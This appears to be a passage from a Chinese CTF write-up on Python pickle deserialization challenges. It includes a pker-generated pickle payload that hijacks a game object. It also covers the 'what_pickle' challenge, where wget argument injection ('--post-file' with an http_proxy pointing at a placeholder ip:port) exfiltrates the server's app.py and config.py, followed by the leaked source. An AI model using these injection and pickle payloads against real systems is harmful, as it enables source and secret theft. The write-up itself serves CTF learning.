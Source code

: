 ```python
print(s.recv(1024))
print(s.recv(1024))
```

![image-20210809144613834](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20210809144613834.png)

————用pker

```python
ticket = INST('guess_game.Ticket', 'Ticket', 0)
game = GLOBAL('guess_game', 'game')
game.curr_ticket = ticket
return ticket
# b"(I0\niguess_game.Ticket\nTicket\np0\n0cguess_game\ngame\np1\n0g1\n(N(S'curr_ticket'\ng0\ndtbg0\n."
```
{{% /spoiler %}}



{{% spoiler "栗子3 - [巅峰极客 2021]what_pickle" %}}

登录页面 任意密码均可登入，仅显示一张图片+登录时输入的密码；图片的url为/images?image=2.jpg，但是不能常规的目录穿越拿源码，当时做的时候就不会了，下面是复现

/images可以看到开着的debug界面

![image-20211024174438862](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211024174438862.png)

能看到部分的源码，这里的图片是用的wget命令来下载本地8080端口的/image图片，所以我们尝试wget命令注入将文件外带出来

```
/images?image=&argv=--post-file=/app/app.py&argv=--execute=http_proxy=http://ip:port
```

```
/images?image=&argv=—post-file=/app/app.py&argv=-e http_proxy=http://ip:port
```

依次读出/app/app.py和/app/config.py

```python
# app.py
from flask import Flask, request, session, render_template, url_for,redirect
import pickle
import io
import sys
import base64
import random
import subprocess
from ctypes import cdll
from config import SECRET_KEY, notadmin,user

cdll.LoadLibrary("./readflag.so")

app = Flask(__name__)
app.config.update(dict(
    SECRET_KEY=SECRET_KEY,
))

class RestrictedUnpickler(pickle.Unpickler):
    def find_class(self, module, name):
        if module in ['config'] and "__" not in name:
            return getattr(sys.modules[module], name)
        raise pickle.UnpicklingError("global '%s.%s' is forbidden" % (module, name))


def restricted_loads(s):
    """Helper function analogous to pickle.loads()."""
    return RestrictedUnpickler(io.BytesIO(s)).load()
```